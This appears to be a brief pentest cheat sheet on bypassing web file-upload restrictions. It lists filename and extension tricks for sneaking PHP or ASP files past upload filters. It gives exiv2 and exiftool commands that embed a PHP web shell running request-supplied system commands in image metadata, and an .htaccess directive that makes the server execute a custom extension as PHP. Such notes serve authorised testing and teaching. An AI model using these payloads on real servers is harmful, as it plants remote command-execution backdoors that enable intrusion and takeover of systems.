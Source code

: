 # 🔧 File Upload Checks

## <mark style="color:red;">Bypassing File Upload Restrictions</mark>

* file.php -> file.jpg
* file.php -> file.php.jpg
* file.asp -> file.asp;.jpg
* file.gif (contains php code, but starts with string GIF/GIF98)
* 00%
* file.jpg with php backdoor in exif (see below)
* .jpg -> proxy intercept -> rename to .php

## <mark style="color:red;">Injecting PHP into JPEG</mark>

```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

## <mark style="color:red;">Uploading .htaccess to interpret .blah as .php</mark>

```
AddType application/x-httpd-php .blah
```
